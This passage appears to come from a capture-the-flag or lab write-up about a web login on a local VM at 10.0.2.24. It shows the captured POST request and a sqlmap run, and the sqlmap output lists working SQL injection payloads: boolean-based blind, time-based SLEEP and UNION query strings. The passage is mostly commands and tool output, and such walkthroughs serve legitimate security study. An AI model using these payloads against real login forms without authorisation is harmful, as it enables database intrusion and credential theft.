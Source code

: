 Lets check port 80 🔻

![](Pasted%20image%2020250628225516.png)

Lets check for `sqli` on this login with <mark style="background: #FF5582A6;">sqlmap</mark> 🔻

```bash
└─$ cat req.txt        
POST /login.php HTTP/1.1
Host: 10.0.2.24
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.0.2.24
Connection: keep-alive
Referer: http://10.0.2.24/
Cookie: PHPSESSID=451iggnna6k9cur8cdht4rifb7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=admin      
```
{: .nolineno}
The above request file is of the login form where I will be using it for sqlmap tool for enumeration.

```sql
└─$ sqlmap -r req.txt -p 'username' -dbs --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


[22:09:02] [INFO] parsing HTTP request from 'req.txt'
[22:09:02] [INFO] resuming back-end DBMS 'mysql' 
[22:09:02] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.0.2.24/home.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 4345=4345 AND 'lJhg'='lJhg&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6228 FROM (SELECT(SLEEP(5)))LSSE) AND 'EmOt'='EmOt&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: username=-6275' UNION ALL SELECT CONCAT(0x71717a7871,0x42577a4f4b6f766d6366635559696257636e754c4d7a4148466257524341594e716f70714c46754d,0x71716a6a71),NULL,NULL,NULL,NULL,NULL-- -&password=admin
---
'
```